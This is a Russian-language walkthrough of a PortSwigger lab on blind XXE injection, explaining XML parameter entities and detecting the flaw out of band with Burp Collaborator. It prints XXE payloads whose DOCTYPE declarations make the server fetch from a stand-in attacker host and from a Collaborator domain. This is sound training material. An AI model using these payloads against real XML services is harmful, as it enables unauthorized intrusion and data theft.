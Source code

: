 # Blind XXE with out-of-band interaction via XML parameter entities

## Theory

<h3>Обнаружение слепых XXE с использованием внеполосных (OAST) методов</h3>

Иногда атаки XXE с использованием обычных сущностей блокируются из-за некоторой проверки входных данных приложением или некоторой защиты используемого синтаксического анализатора XML. В этой ситуации вместо этого можно использовать сущности параметров XML. Сущности XML-параметров представляют собой особый вид XML-сущностей, на которые можно ссылаться только в другом месте DTD. Для настоящих целей вам нужно знать только две вещи. Во-первых, объявление сущности параметра XML включает символ процента перед именем сущности:
```
<!ENTITY % myparameterentity "my parameter entity value" >
```

И, во-вторых, на объекты параметров ссылаются с использованием символа процента вместо обычного амперсанда:
```
%myparameterentity;
```

Это означает, что вы можете протестировать слепой XXE, используя обнаружение вне диапазона с помощью объектов параметров XML следующим образом:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Эта полезная нагрузка XXE объявляет сущность параметра XML с именем xxe, а затем использует сущность в DTD. Это приведет к поиску DNS и HTTP-запросу к домену злоумышленника, подтверждая, что атака прошла успешно.

(DTD - Document Type Definition: Цель DTD состоит в определении допустимых строительных блоков XML документа.)

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/1.png)

Выберем любой продукт.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/2.png)

Перейдем на его страницу и спустимся в самый низ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/3.png)

Нажмем на кнопку "Check stock" и перехватим запрос. Отправляем его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/4.png)

Запустим Burp Collaborator Client. Скопируем DNS.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/5.png)

Модифицируем запрос. Вставляем скопированный ранее DNS. Отправляем запрос. Код экплоита:
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://8r00g402bxkhrf36sbo1ta0m5db3zs.burpcollaborator.net"> %xxe; ]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/6.png)

Перейдем в Burp Collaborator Client. теперь мы можем заметить результат DNS lookup.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/7.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Blind_XXE_with_out-of-band_interaction_via_XML_parameter_entities/assets/8.png)
